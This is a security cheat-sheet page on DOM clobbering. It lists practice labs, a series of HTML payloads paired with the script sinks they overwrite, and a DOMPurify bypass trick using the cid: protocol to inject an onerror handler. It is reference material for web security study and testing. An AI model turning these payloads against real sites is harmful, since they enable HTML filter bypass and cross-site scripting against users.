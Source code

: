 +++
title = "DOM Clobbering"
date = '2023-06-21'
description = 'DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.'
include_toc = 'true'
+++

# Dom Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

* [Lab](#lab)
* [Exploit](#exploit)
* [References](#references)


## Lab

* [Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
* [Lab: Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
* [Lab: DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)

## Exploit

Exploitation requires any kind of `HTML injection` in the page.

* Clobbering `x.y.value`
    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

* Clobbering `x.y` using ID and name attributes together to form a DOM collection
    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

* Clobbering `x.y.z` - 3 levels deep
    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

* Clobbering `a.b.c.d` - more than 3 levels
    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

* Clobbering `forEach` (Chrome only)
    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute
    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

* Clobbering `x.username`
    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

* Clobbering (Firefox only)
    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

* Clobbering (Chrome only)
    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```


## Tricks

* DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`


## References

* [Dom Clobbering - PortSwigger](https://portswigger.net/web-security/dom-based/dom-clobbering)
* [Dom Clobbering - HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
* [DOM Clobbering strikes back - @garethheyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
* [Hijacking service workers via DOM Clobbering - @garethheyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* [Bypassing CSP via DOM clobbering - @garethheyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
